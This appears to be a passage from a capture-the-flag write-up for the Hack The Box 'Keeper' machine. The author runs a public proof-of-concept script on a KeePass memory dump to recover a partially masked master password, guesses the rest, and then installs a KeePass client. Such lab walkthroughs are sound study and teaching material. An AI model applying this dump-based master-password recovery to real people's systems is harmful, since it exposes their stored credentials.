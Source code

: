 Now I use this POC to retrieve the master password of a **keepass** database, the repository is `https://github.com/CMEPW/keepass-dump-masterkey`, I run the python script:
```sh
┌──(kali㉿kali)-[~/keeper.htb]
└─$ python3 poc.py -d KeePassDumpFull.dmp
2023-08-23 13:28:43,340 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

I search `●,dgr●d med fl●de` on google and I find a dessert name: `rødgrød med fløde`

I search on google`how open .kdbx file on linux` and I find a interesting tool `keepassx`, I download this tool:
```sh
┌──(kali㉿kali)-[~/keeper.htb]
└─$ sudo apt install keepassx
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following additional packages will be installed:
...

┌──(kali㉿kali)-[~/keeper.htb]
└─$ keepassxc --help
Usage: keepassxc [options] [filename(s)]
KeePassXC - cross-platform password manager

Options:
  -h, --help                   Displays help on commandline options.
  --help-all                   Displays help including Qt specific options.
  -v, --version                Displays version information.
  --config <config>            path to a custom config file
  --localconfig <localconfig>  path to a custom local config file
  --lock                       lock all open databases
  --keyfile <keyfile>          key file of the database
  --pw-stdin                   read password of the database from stdin
  --debug-info                 Displays debugging information.

Arguments:
  filename(s)                  filenames of the password databases to open
                               (*.kdbx)
```
